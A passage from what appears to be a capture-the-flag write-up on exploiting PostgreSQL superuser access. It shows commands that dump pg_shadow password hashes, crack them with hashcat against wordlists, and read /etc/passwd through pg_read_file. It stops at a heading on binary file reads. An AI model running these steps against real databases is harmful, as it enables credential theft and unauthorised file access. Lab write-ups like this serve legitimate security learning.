 ```
PostgreSQL 14.8 (Ubuntu 14.8-0ubuntu0.22.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, 64-bit
```

`SELECT current_setting('is_superuser');`

```
"on"
```

**We are a superuser!**

`SELECT table_schema,table_name FROM information_schema.tables;`

```
pg_user
pg_shadow
pg_auth_members
...
```

`SELECT * from pg_shadow;`

```
usename: grafana_viewer
usesysid: 16385
passwd: SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY=
```

`.\hashcat.exe -m 28600 .\hash.txt --wordlist .\rockyou.txt` - exhausted

`.\hashcat.exe -m 28600 .\hash.txt --wordlist .\xato-net-10-million-passwords-1000000.txt` - exhausted

# File read/write
We can list directories using:

`select pg_ls_dir('./');`

And read files using:

`select pg_read_file('file', 0, 200);`

- /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
...
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
grafana:x:115:121::/usr/share/grafana:/bin/false
...
juno:x:1000:1000:juno:/home/juno:/bin/bash
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
```

**Binary/long file read:**
